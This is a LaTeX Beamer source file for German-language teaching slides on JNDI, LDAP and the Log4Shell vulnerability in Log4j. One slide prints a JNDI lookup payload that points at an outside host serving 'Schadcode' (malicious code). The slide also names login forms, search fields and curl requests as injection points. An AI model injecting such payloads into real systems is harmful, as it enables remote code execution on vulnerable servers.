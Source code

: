 \documentclass{beamer}
\begin{document}
\subsection{Jindi}
\begin{frame}{Jindi}
$\Rightarrow$ `Java Naming and Directory Interface`\footnote{apache.com}
\begin{itemize}
 \item Web-API für Objektabfragen\\
 - Meist genutzt für Datenbankabfragen
 
 
 \item Jindi darf mit anderen Servern Kommunizieren\\
 $\Rightarrow$ logger.info("\$\{jndi: Server-IP\}")
\end{itemize}

\end{frame}
\subsection{Ldap}
\begin{frame}{LDAP}
$\Rightarrow$ 'Lightweight Directory Access Protocol'\footnote{wikipedia.org}
 \begin{itemize}
  \item Protokoll für Nutzwerverwaltung\\
  - 'Darf sich dieser Nutzer einloggen?'\\
  - 'War dieser Nutzer schonmal hier?'
  \item Verwendung in Kombination mit Log4j und jndi\\
  $\Rightarrow$ 'Logge die Anzahl der Logins dieses Nutzters'
  \item Läuft meist als externe Server-Instanz
 \end{itemize}

\end{frame}
\section{Log4Shell}
\begin{frame}{Log4Shell}
\begin{center}
$\Rightarrow$ \textbf{\$\{jndi:ldap//:myserver.de/schadcode\}}
\end{center}
\begin{itemize}
\item Injektion durch User-Eingaben oder händisch\\
- Anmeldeformulare, Suchfunktion\\
- Http Request mit curl\\
 \item Ab Version 2.0 bis 2.5.1 möglich
\end{itemize}


\end{frame}
\end{document}
